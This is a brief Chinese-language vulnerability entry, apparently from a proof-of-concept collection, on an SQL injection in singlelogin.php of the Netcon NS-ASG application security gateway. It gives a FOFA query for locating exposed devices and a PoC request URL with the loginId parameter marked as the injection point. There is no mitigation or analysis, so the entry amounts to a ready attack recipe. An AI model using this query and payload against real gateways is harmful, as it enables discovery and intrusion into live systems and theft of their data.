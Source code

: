 ## 网康NS-ASG应用安全网关singlelogin.php存在SQL注入漏洞


## fofa
```
app="网康NS-ASG应用安全网关"
```

## poc
```
http://ip/admin/singlelogin.php?submit=1&loginId=1*
```
